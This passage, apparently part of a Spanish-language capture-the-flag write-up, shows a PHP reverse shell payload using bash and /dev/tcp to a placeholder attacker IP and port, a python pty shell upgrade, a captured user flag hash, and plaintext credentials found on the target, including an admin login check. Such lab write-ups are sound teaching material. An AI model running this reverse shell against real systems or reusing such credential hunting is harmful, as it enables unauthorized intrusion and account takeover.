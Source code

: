 ```python
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```

# Rshell.php
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/TUI-P/PUERTO 0>&1'")
?>
```


###### Tenemos que cambiar el la IP y el puerto por donde estaremos escuchando para conseguir la reverseshell.php

comando para generar el pront de la terminal
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


User.txt
```python
f2c74ee8db7983851ab2a96a44eb7981
```

#### Navegando al directorio donde se alija la pagina php podemos encontrar archivos interesantes.
User.
```python
'robert', 'M3g4C0rpUs3r!'
```

### El comando cat lo podemos convinar con grep para buscar archivos que contengan una palabra en espesifico. 

# code
```css
cat * | grep -i passw*
```
# Info
```css
($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
```
